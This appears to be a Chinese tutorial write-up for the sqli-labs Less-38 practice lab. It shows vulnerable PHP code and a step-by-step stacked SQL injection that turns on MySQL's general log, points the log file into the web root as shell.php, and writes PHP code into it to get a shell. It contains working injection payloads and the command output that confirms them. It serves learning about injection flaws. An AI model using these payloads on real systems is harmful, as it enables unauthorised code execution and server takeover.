 #### 3.4.1 Less-38

```php
$id=$_GET['id'];

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
if (mysqli_multi_query($con1, $sql)):
    "查询结果"
else:
    print_r(mysqli_error($con1));
```

产生堆叠的原因在于`mysqli_multi_query()`函数，它会执行一个或用分号隔开的多个SQL语句。

堆叠注入可以直接写马GetShell。

这里先查看mysql配置

```bash
mysql> show variables like 'general%';
+------------------+---------------------------------+
| Variable_name    | Value                           |
+------------------+---------------------------------+
| general_log      | OFF                             |
| general_log_file | /var/lib/mysql/e783195a8830.log |
+------------------+---------------------------------+
```

可以看见默认没有开启，首先手动开启。

```sql
?id=1';set global general_log="ON";set global general_log_file='/var/www/html/Less-38/shell.php'%23
```

```bash
mysql> show variables like 'general%';
+------------------+---------------------------------+
| Variable_name    | Value                           |
+------------------+---------------------------------+
| general_log      | ON                              |
| general_log_file | /var/www/html/Less-38/shell.php |
+------------------+---------------------------------+
```

然后就可以写入php代码了

```sql
?id=1';select '<?php phpinfo();?>'%23
```

查看文件

```bash
$ cat /var/www/html/Less-38/shell.php
250311 14:32:51    10 Connect   root@localhost on security
                   10 Init DB   security
                   10 Query     SELECT * FROM users WHERE id='1';select '<?php phpinfo();?>'#' LIMIT 0,1
```
